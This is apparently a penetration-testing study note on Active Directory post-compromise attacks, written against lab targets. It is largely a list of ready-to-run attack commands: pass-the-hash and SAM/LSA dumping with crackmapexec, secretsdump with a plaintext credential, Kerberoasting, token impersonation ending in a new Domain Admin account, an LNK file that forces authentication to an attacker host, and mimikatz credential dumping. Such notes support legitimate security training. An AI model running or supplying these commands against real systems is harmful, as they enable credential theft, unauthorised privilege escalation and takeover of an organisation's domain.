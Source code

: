 
![[Pasted image 20241116130150.png]]

>[! bug] Moving Laterally & Vertically

```
- [ ] Pass Attacks
- [ ] Dumping and Cracking Hashes
- [ ] Kerberoasting Overview
- [ ] Token Impersonation
- [ ] LNK File Attacks
- [ ] GPP / cPassword Attacks
- [ ] Mimikatz
- [ ] Credential Dumping with Mimikatz
- [ ] Post-Compromise Attack Strategy
```



##  Pass Attacks

- [ ] crackmapexec

```
crackmapexec smb <IP_Address> -u <user_list> -d <domain_list> -p <password_list>
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```



Hash
```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --sam
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --lsa
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --shares
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth -M lsassy
```


```
cmedb
```




- [ ] secretsdump

```
secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
```

```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```

```
secretsdump.py administrator@10.10.10.182 -hashes <full:hash>
```





- [ ] Dumping and Cracking Hashes

```
Wdigest is by default on Windows 2007 , 2008 , 2012.
```

```
llmr -> fcastle hash -> cracked -> sprayed the password -> found new login -> secretsdump those logins -> local admin hashes -> respray the network with local accounts

Lateral, Lateral, lateral all the way through until we find the vertical movement.
It could be admin password in wdigest or it could be an admin account that logins into your Domain controller.
```




- [ ] Kerberoasting

```
GetUserSPNs.py MARVEL.local/<usernname>:<password> -dc-ip <ip_address> -request
```

```
If it's never a logon in an account that could be a Honeypot account
```






- [ ] Token Impersonation

Delegate Token are for login's & RDP
Incognito

MSF-Console
![[Pasted image 20241112174826.png]]


```
load incognito
```
![[Pasted image 20241112175259.png]]

```
list_token -u
list_token -g
```

```
impersonate_token marvel\\fcastle
```

```
shell 
rev2self
getuid
```


```
net user /add hawkeye Password1@ /domain
net group "Domain Admins" hawkeye /ADD /DOMAIN
```





- [ ] LNK File Attacks


```
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\<attacker_machine_IP>\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```


```
sudo responder -I eth0 -dwPv
```


Automated attack using CME/Net Exec:

```
netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149
```


Additional resources for forced authentication: [Red_Team_Offensive_Security](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf)







- [ ] GPP / cPassword Attacks

GPP -> gpp-decrypt -> msf -> smb_enum_gpp




- [ ] Mimikatz

https://github.com/gentilkiwi/mimikatz



- [ ] Credential Dumping with Mimikatz

```
privilege::
```

```
sekurlsa::logonpasswords
```

```
privilege::debug
```

```
sekurlsa::
```

```
sekurlsa::logonPasswords
```



- [ ] Post-Compromise Attack Strategy

![[Pasted image 20241116130213.png]]